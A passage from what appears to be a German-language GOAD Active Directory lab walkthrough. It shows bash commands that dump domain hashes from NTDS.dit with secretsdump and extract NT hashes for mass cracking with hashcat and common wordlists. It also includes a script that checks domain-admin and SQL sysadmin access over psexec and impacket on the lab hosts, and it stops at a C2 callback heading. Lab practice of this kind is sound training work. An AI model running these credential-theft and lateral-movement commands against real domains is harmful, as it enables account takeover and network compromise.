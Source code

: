 #### Offline NTDS Analysis
```bash
# NTDS.dit offline analysieren
secretsdump.py -ntds ntds.dit -system system.hiv LOCAL > all_domain_hashes.txt

# Hash-Statistiken
grep -c ":::" all_domain_hashes.txt
grep -c "aad3b435b51404eeaad3b435b51404ee" all_domain_hashes.txt
```

#### Credential Analysis & Cracking
```bash
# Alle NT-Hashes extrahieren
cut -d: -f4 all_domain_hashes.txt | sort -u > nt_hashes.txt

# Mass Hash Cracking
hashcat -m 1000 nt_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 nt_hashes.txt /opt/SecLists/Passwords/Common-Credentials/10k-most-common.txt
```

---

## Phase 10: Impact Assessment & Reporting

### 10.1 Complete Access Verification

#### Domain Dominance Checklist
```bash
#!/bin/bash
# final_access_verification.sh

echo "=== GOAD Lab Complete Compromise Verification ==="

# Test 1: Domain Admin Access auf allen DCs
domains=("sevenkingdoms.local:192.168.20.10" "north.sevenkingdoms.local:192.168.20.11" "essos.local:192.168.20.12")

for domain_info in "${domains[@]}"; do
    domain=${domain_info%:*}
    dc=${domain_info#*:}
    
    echo "Testing Domain Admin access on $domain ($dc)..."
    
    # PSExec Test
    if psexec.py "$domain/administrator:password@$dc" 'cmd /c echo SUCCESS' > /dev/null 2>&1; then
        echo "✅ Domain Admin confirmed on $domain"
    else
        echo "❌ Domain Admin failed on $domain"
    fi
done

# Test 2: SQL Server Administrative Access
sql_servers=("192.168.20.22" "192.168.20.23")
for sql in "${sql_servers[@]}"; do
    echo "Testing SQL Server Admin access on $sql..."
    if impacket-mssqlclient -windows-auth "north.sevenkingdoms.local/administrator:password@$sql" -q "SELECT IS_SRVROLEMEMBER('sysadmin')" | grep -q "1"; then
        echo "✅ SQL Server Admin confirmed on $sql"
    else
        echo "❌ SQL Server Admin failed on $sql"  
    fi
done

# Test 3: C2 Callback Verification
```